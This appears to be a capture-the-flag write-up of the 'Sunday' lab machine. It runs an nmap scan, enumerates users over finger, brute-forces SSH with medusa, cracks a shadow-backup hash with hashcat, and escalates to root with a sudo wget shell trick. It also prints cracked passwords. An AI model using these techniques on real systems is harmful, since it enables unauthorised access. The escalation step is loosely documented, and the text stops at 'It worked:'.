




### Nmap scan:
```
# Nmap 7.92 scan initiated Sat Jan 14 20:30:29 2023 as: nmap -sC -sV -p- -vv -Pn -oA full 10.10.10.76
Increasing send delay for 10.10.10.76 from 0 to 5 due to 18 out of 58 dropped probes since last increase.
Increasing send delay for 10.10.10.76 from 5 to 10 due to 11 out of 33 dropped probes since last increase.
adjust_timeouts2: packet supposedly had rtt of 12460807 microseconds.  Ignoring time.
adjust_timeouts2: packet supposedly had rtt of 12460807 microseconds.  Ignoring time.
adjust_timeouts2: packet supposedly had rtt of 12139361 microseconds.  Ignoring time.
adjust_timeouts2: packet supposedly had rtt of 12139361 microseconds.  Ignoring time.
Nmap scan report for 10.10.10.76
Host is up, received user-set (0.079s latency).
Scanned at 2023-01-14 20:30:29 EST for 6940s
Not shown: 65518 closed tcp ports (reset)
PORT      STATE    SERVICE  REASON         VERSION
79/tcp    open     finger?  syn-ack ttl 59
| fingerprint-strings: 
|   GenericLines: 
|     Login Name TTY Idle When Where
|     sunny ??? pts/2 2 Sun 02:54 10.10.14.34 
|     sunny ??? pts/1 5 Sun 02:47 10.10.14.34
|   GetRequest: 
|     Login Name TTY Idle When Where
|     HTTP/1.0 ???
|   HTTPOptions: 
|     Login Name TTY Idle When Where
|     HTTP/1.0 ???
|     OPTIONS ???
|   Help: 
|     Login Name TTY Idle When Where
|     HELP ???
|   RTSPRequest: 
|     Login Name TTY Idle When Where
|     OPTIONS ???
|_    RTSP/1.0 ???
| finger: Login       Name               TTY         Idle    When    Where\x0D
| sunny           ???            pts/2          3 Sun 02:54  10.10.14.34         \x0D
|_sunny           ???            pts/1          6 Sun 02:47  10.10.14.34         \x0D
515/tcp   open     printer  syn-ack ttl 59
5923/tcp  filtered unknown  no-response
6787/tcp  open     ssl/http syn-ack ttl 59 Apache httpd 2.4.33 ((Unix) OpenSSL/1.0.2o mod_wsgi/4.5.1 Python/2.7.14)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| ssl-cert: Subject: commonName=sunday
| Subject Alternative Name: DNS:sunday
| Issuer: commonName=sunday/organizationName=Host Root CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-12-08T19:40:00
| Not valid after:  2031-12-06T19:40:00
| MD5:   6bd3 4b32 c05a e5fe a8c8 61f0 4361 414a
| SHA-1: a5eb c880 968c 84aa 10b2 a944 bad2 56ca aed5 b66a
| -----BEGIN CERTIFICATE-----
| MIIC4DCCAcqgAwIBAgIHAIqqcz45jjALBgkqhkiG9w0BAQswKDEVMBMGA1UEChMM
| SG9zdCBSb290IENBMQ8wDQYDVQQDEwZzdW5kYXkwHhcNMjExMjA4MTk0MDAwWhcN
| MzExMjA2MTk0MDAwWjARMQ8wDQYDVQQDEwZzdW5kYXkwggEiMA0GCSqGSIb3DQEB
| AQUAA4IBDwAwggEKAoIBAQC67wVPVDRPU/Sahp2QnHx2NlMUQrkyBJrr4TSjS9v6
| /DFKqf3m2XnYuKyFl9BAO8Mi+Hz3ON4nZWmigZGX6LnJpci6whB89pLZdcogruB8
| YMyGuP8y2v3orEBLQ5NrcP6fcKLMp+6PXurvuZDgPH+oXHJyp/w//pkBROQRC0oN
| 8dx7Zq2t4ZfDiqhgw1j79V7kZNOjKp8gU1HmQ/BjYEaOfVZNwuTVyqUtfcjuxIio
| JEHaVmhNV9Xp9DAOLBFuTXpsJe3anSjGGP0DWMyNOps2VrZUyJwC22U5jlcp7Rj/
| WWE5gnm6ClH44DXlKMIt8O2vq0MfqvvGeSIFbSOPb6Q3AgMBAAGjKjAoMBEGA1Ud
| EQQKMAiCBnN1bmRheTATBgNVHSUEDDAKBggrBgEFBQcDATALBgkqhkiG9w0BAQsD
| ggEBAC/f3nN6ur2oSSedYNIkf6/+MV3qu8xE+Cqt/SbSk0uSmQ7hYpMhc8Ele/gr
| Od0cweaClKXEhugRwfVW5jmjJXrnSZtOpyz09dMhZMA9RJ9efVfnrn5Qw5gUriMx
| dFMrAnOIXsFu0vnRZLJP7E95NHpZVECnRXCSPjp4iPe/vyl1OuoVLBhoOwZ8O7zw
| WlP/51SiII8LPNyeq+01mCY0mv3RJD9uAeNJawnFwsCo/Tg9/mjk0zxUMaXm80Bb
| qsSmST23vYwuPw3c/91fJI4dWb7uEZJa55hRIU0uMPOLOUpN1kKkGPO+7QCzfedc
| WPptRhU+2UMGhFXHyGV5EJp2zvc=
|_-----END CERTIFICATE-----
| http-title: Solaris Dashboard
|_Requested resource was https://10.10.10.76:6787/solaris/
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.33 (Unix) OpenSSL/1.0.2o mod_wsgi/4.5.1 Python/2.7.14
17522/tcp filtered unknown  no-response
22022/tcp open     ssh      syn-ack ttl 63 OpenSSH 7.5 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa:00:94:32:18:60:a4:93:3b:87:a4:b6:f8:02:68:0e (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDsG4q9TS6eAOrX6zI+R0CMMkCTfS36QDqQW5NcF/v9vmNWyL6xSZ8x38AB2T+Kbx672RqYCtKmHcZMFs55Q3hoWQE7YgWOJhXw9agE3aIjXiWCNhmmq4T5+zjbJWbF4OLkHzNzZ2qGHbhQD9Kbw9AmyW8ZS+P8AGC5fO36AVvgyS8+5YbA05N3UDKBbQu/WlpgyLfuNpAq9279mfq/MUWWRNKGKICF/jRB3lr2BMD+BhDjTooM7ySxpq7K9dfOgdmgqFrjdE4bkxBrPsWLF41YQy3hV0L/MJQE2h+s7kONmmZJMl4lAZ8PNUqQe6sdkDhL1Ex2+yQlvbyqQZw3xhuJ
|   256 da:2a:6c:fa:6b:b1:ea:16:1d:a6:54:a1:0b:2b:ee:48 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAII/0DH8qZiCfAzZNkSaAmT39TyBUFFwjdk8vm7ze+Wwm
22842/tcp filtered unknown  no-response
23086/tcp filtered unknown  no-response
23965/tcp filtered unknown  no-response
26785/tcp filtered unknown  no-response
29884/tcp filtered unknown  no-response
35948/tcp filtered unknown  no-response
37441/tcp filtered unknown  no-response
43945/tcp filtered unknown  no-response
51421/tcp filtered unknown  no-response
60553/tcp filtered unknown  no-response
63233/tcp filtered unknown  no-response
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port79-TCP:V=7.92%I=7%D=1/14%Time=63C371F9%P=x86_64-pc-linux-gnu%r(Gene
SF:ricLines,E4,"Login\x20\x20\x20\x20\x20\x20\x20Name\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20TTY\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20Idle\x20\x20\x20\x20When\x20\x20\x20\x20Where\r\nsunny\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20\?\?\?\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20pts/2\x20\x20\x20\x20\x20\x20\x20\x20\x20\x202\x20Sun\
SF:x2002:54\x20\x2010\.10\.14\.34\x20\x20\x20\x20\x20\x20\x20\x20\x20\r\ns
SF:unny\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\?\?\?\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20pts/1\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x205\x20Sun\x2002:47\x20\x2010\.10\.14\.34\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\r\n")%r(GetRequest,93,"Login\x20\x20\x20\x20\x20\x20\x20Name\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20TTY\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20Idle\x20\x20\x20\x20When\x20\x20\x20\x20Wher
SF:e\r\n/\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\?\?\?\r\nGET\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\?\?\?\r\nHTTP/1\.0\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\?\?\?\r\n")%r(Help,5D,"Login\
SF:x20\x20\x20\x20\x20\x20\x20Name\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20TTY\x20\x20\x20\x20\x20\x20\x20\x20\x20Idle\x20\x20
SF:\x20\x20When\x20\x20\x20\x20Where\r\nHELP\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\?\?\?\r\n")%r(HTTPOptions,93
SF:,"Login\x20\x20\x20\x20\x20\x20\x20Name\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20TTY\x20\x20\x20\x20\x20\x20\x20\x20\x20Idle
SF:\x20\x20\x20\x20When\x20\x20\x20\x20Where\r\n/\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\?\?\?\r\nHT
SF:TP/1\.0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\?\?\?\r
SF:\nOPTIONS\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\?
SF:\?\?\r\n")%r(RTSPRequest,93,"Login\x20\x20\x20\x20\x20\x20\x20Name\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20TTY\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20Idle\x20\x20\x20\x20When\x20\x20\x20\x20Where\r\
SF:n/\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\?\?\?\r\nOPTIONS\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\?\?\?\r\nRTSP/1\.0\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\?\?\?\r\n");

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jan 14 22:26:09 2023 -- 1 IP address (1 host up) scanned in 6940.73 seconds
```

From the nmap scan we can see that the Finger service is available, </br>
**Finger** is a protocol that displays information about users on a specified remote computer. </br>

##### Enumerating Finger: </br>
[79 - Pentesting Finger](https://book.hacktricks.xyz/network-services-pentesting/pentesting-finger) </br>
To enumerate the finger service I installed finger with the command: ```apt-get install finger``` and used [finger-user-enum script](https://github.com/pentestmonkey/finger-user-enum). </br>

To list Logged on users:
```
finger @10.10.10.76   
No one logged on        
```

Bruteforce Possible Usernames:
```
./finger-user-enum.pl -U /opt/SecLists/Usernames/Names/names.txt -t 10.10.10.76


######## Scan started at Sat Jan 14 22:45:13 2023 #########
access@10.10.10.76: access No Access User                     < .  .  .  . >..nobody4  SunOS 4.x NFS Anonym               < .  .  .  . >..
admin@10.10.10.76: Login       Name               TTY         Idle    When    Where..adm      Admin                              < .  .  .  . >..dladm    Datalink Admin                     < .  .  .  . >..netadm   Network Admin                      < .  .  .  . >..netcfg   Network Configuratio               < .  .  .  . >..dhcpserv DHCP Configuration A               < .  .  .  . >..ikeuser  IKE Admin                          < .  .  .  . >..lp       Line Printer Admin                 < .  .  .  . >..
anne marie@10.10.10.76: Login       Name               TTY         Idle    When    Where..anne                  ???..marie                 ???..
bin@10.10.10.76: bin             ???                         < .  .  .  . >..
dee dee@10.10.10.76: Login       Name               TTY         Idle    When    Where..dee                   ???..dee                   ???..
ike@10.10.10.76: ikeuser  IKE Admin                          < .  .  .  . >..
jo ann@10.10.10.76: Login       Name               TTY         Idle    When    Where..ann                   ???..jo                    ???..
la verne@10.10.10.76: Login       Name               TTY         Idle    When    Where..la                    ???..verne                 ???..
line@10.10.10.76: Login       Name               TTY         Idle    When    Where..lp       Line Printer Admin                 < .  .  .  . >..
message@10.10.10.76: Login       Name               TTY         Idle    When    Where..smmsp    SendMail Message Sub               < .  .  .  . >..
miof mela@10.10.10.76: Login       Name               TTY         Idle    When    Where..mela                  ???..miof                  ???..
sammy@10.10.10.76: sammy                 pts/2                 ..
sunny@10.10.10.76: sunny                 pts/3                 ..
root@10.10.10.76: root     Super-User            console      <Oct 14 10:28>..
sys@10.10.10.76: sys             ???                         < .  .  .  . >..
zsa zsa@10.10.10.76: Login       Name               TTY         Idle    When    Where..zsa                   ???..zsa                   ???..
######## Scan completed at Sat Jan 14 22:51:23 2023 #########
16 results.

```

From this list there were only 2 possible users that I could SSH into:
```
sammy
sunny
```

And I tried to SSH Bruteforce into them using medusa tool:
```
ACCOUNT CHECK: [ssh] Host: 10.10.10.76 (1 of 1, 0 complete) User: sunny (1 of 1, 0 complete) Password: turkey (1944 of 14344391 complete)
ACCOUNT CHECK: [ssh] Host: 10.10.10.76 (1 of 1, 0 complete) User: sunny (1 of 1, 0 complete) Password: snowman (1945 of 14344391 complete)
ACCOUNT CHECK: [ssh] Host: 10.10.10.76 (1 of 1, 0 complete) User: sunny (1 of 1, 0 complete) Password: sayangku (1946 of 14344391 complete)
ACCOUNT CHECK: [ssh] Host: 10.10.10.76 (1 of 1, 0 complete) User: sunny (1 of 1, 0 complete) Password: madeline (1947 of 14344391 complete)
ACCOUNT CHECK: [ssh] Host: 10.10.10.76 (1 of 1, 0 complete) User: sunny (1 of 1, 0 complete) Password: astrid (2377 of 14344391 complete)
ACCOUNT CHECK: [ssh] Host: 10.10.10.76 (1 of 1, 0 complete) User: sunny (1 of 1, 0 complete) Password: bonjour (2378 of 14344391 complete)
ACCOUNT CHECK: [ssh] Host: 10.10.10.76 (1 of 1, 0 complete) User: sunny (1 of 1, 0 complete) Password: billybob (2379 of 14344391 complete)
ACCOUNT CHECK: [ssh] Host: 10.10.10.76 (1 of 1, 0 complete) User: sunny (1 of 1, 0 complete) Password: theman (2380 of 14344391 complete)
ACCOUNT CHECK: [ssh] Host: 10.10.10.76 (1 of 1, 0 complete) User: sunny (1 of 1, 0 complete) Password: sunday (2381 of 14344391 complete)

ACCOUNT FOUND: [ssh] Host: 10.10.10.76 User: sunny Password: sunday [SUCCESS]

```

I got inside ```sunny``` user with SSH:
```
ssh sunny@10.10.10.76 -p 22022
```
</br>


## SSH as Sammy:

from the home directory I was inside, I could see that it is possible to read the ```.bash_history``` file:
```
sunny@sunday:~$ cat .bash_history
su -
su -
cat /etc/resolv.conf 
su -
ps auxwww|grep overwrite
su -
sudo -l
sudo /root/troll
ls /backup
ls -l /backup
cat /backup/shadow.backup
sudo /root/troll
sudo /root/troll
su -
sudo -l
sudo /root/troll
ps auxwww
ps auxwww
ps auxwww
top
top
top
ps auxwww|grep overwrite
su -
su -
cat /etc/resolv.conf 
ps auxwww|grep over
sudo -l
sudo /root/troll
sudo /root/troll
sudo /root/troll
sudo /root/troll
clear
ls
clear
ls -la
cat .bash_history 
id
id
clear
ls
ls -la
clear
ls -la
clear
cat .bash_history 
/usr/sbin/sysobjd -d 0 -b 300 -t 300 -n 5
/usr/sbin/sysobjd -d 0 -b 300 -t 300 -n 5
cat /etc/cups/cupsd.conf
cat /var/webui/logs/access_log
su sammy
su sammy
clear
ls -la
cat local.login 
stty -istrip
cat loca.pro
cat loca.profile
cat local.profile 
clear
ls
ls -la
cat .bashrc
clear
ls -la
cat .bash_history 
sudo /root/troll
cat .bash_history 
clear
exit
```

```sudo /root/troll``` seemed interesting, but when I tried it out that was the output:

```
testing
uid=0(root) gid=0(root)
```

The second thing that looked quite interesting was the line: ```ls /backup``` </br>
```
sunny@sunday:~$ ls -la /backup
total 28
drwxr-xr-x   2 root     root           4 Dec 19  2021 .
drwxr-xr-x  25 root     sys           28 Jan 15 01:30 ..
-rw-r--r--   1 root     root         319 Dec 19  2021 agent22.backup
-rw-r--r--   1 root     root         319 Dec 19  2021 shadow.backup
```

```
sunny@sunday:/backup$ cat agent22.backup 
mysql:NP:::::::
openldap:*LK*:::::::
webservd:*LK*:::::::
postgres:NP:::::::
svctag:*LK*:6445::::::
nobody:*LK*:6445::::::
noaccess:*LK*:6445::::::
nobody4:*LK*:6445::::::
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
sunny@sunday:/backup$ cat shadow.backup 
mysql:NP:::::::
openldap:*LK*:::::::
webservd:*LK*:::::::
postgres:NP:::::::
svctag:*LK*:6445::::::
nobody:*LK*:6445::::::
noaccess:*LK*:6445::::::
nobody4:*LK*:6445::::::
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
sunny@sunday:/backup$ 
```

That looked like I might be able to get sammy hash aswell, I tried to bruteforce it using hashcat:
```
.\hashcat.exe -m 7400 -w 3 .\hash.txt .\rockyou.txt
```


```
.\hashcat.exe -m 7400 -w 3 .\hash.txt .\rockyou.txt --show
$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:cooldude!
```

**Note:** I use Hashcat on my Host Windows machine becuase hashcat uses the GPU unlike in virtual machines where he uses the CPU. it works much faster.

# Shell as root:

First thing I did was ```sudo -l``` and that was the output:
```
sunny@sunday:/backup$ sudo -l
User sunny may run the following commands on sunday:
    (root) NOPASSWD: /root/troll
```

I used [GTFOBins](https://gtfobins.github.io/) to privilege Escalation </br>
**GTFOBins** is a curated list of Unix binaries that can be used to bypass local security restrictions in misconfigured systems. </br>


```
Sudo
If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

TF=$(mktemp)
chmod +x $TF
echo -e '#!/bin/sh\n/bin/sh 1>&0' >$TF
sudo wget --use-askpass=$TF 0
```

**It worked:** </br>
